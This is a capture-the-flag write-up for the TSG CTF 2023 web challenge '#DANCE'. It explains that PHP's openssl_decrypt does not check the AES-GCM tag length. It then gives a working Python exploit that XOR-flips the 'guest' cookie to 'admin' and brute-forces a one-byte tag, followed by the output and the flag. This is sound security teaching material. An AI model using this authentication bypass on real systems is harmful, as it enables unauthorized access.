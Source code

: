 # TSG CTF 2023 - web/#DANCE

- 17 solves / 221 pts
- Author: jiei_univ

`openssl_decrypt`:

> **Caution** The length of the tag is not checked by the function. It is the caller's responsibility to ensure that the length of the tag matches the length of the tag retrieved when openssl_encrypt() has been called. Otherwise the decryption may succeed if the given tag only matches the start of the proper tag.
>
> https://www.php.net/manual/en/function.openssl-decrypt.php

This challenge does not check the length of the tag in AES-GCM.

You can do a brute-force attack:

- FYI (Japanese): https://www.mbsd.jp/research/20200901/aes-gcm/

## Exploit

```python
import httpx
import base64
import urllib.parse

# BASE_URL = "http://localhost:8080"
BASE_URL = "http://34.84.176.251:8080"

res = httpx.post(
    BASE_URL,
    data={
        "auth": "guest",
    },
)
assert res.status_code == 302

guest_auth = urllib.parse.unquote(res.cookies["auth"])
iv = urllib.parse.unquote(res.cookies["iv"])
tag = urllib.parse.unquote(res.cookies["tag"])


def xor(xs: bytes, ys: bytes) -> bytes:
    return bytes([x ^ y for x, y in zip(xs, ys)])


admin_auth = base64.b64encode(
    xor(base64.b64decode(guest_auth), xor(b"guest", b"admin"))
).decode()

for i in range(256):
    tag2 = base64.b64encode(bytes([i])).decode()
    res = httpx.get(
        f"{BASE_URL}/mypage.php",
        cookies={
            "auth": admin_auth,
            "iv": iv,
            "tag": tag2,
        },
    )
    if "TSGCTF{" in res.text:
        print(res.text)
        break
```

```html
$ python exploit.py
<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        Hello admin! Password is here.
TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}
        </body>
</html>
```

## Flag

```
TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}
```
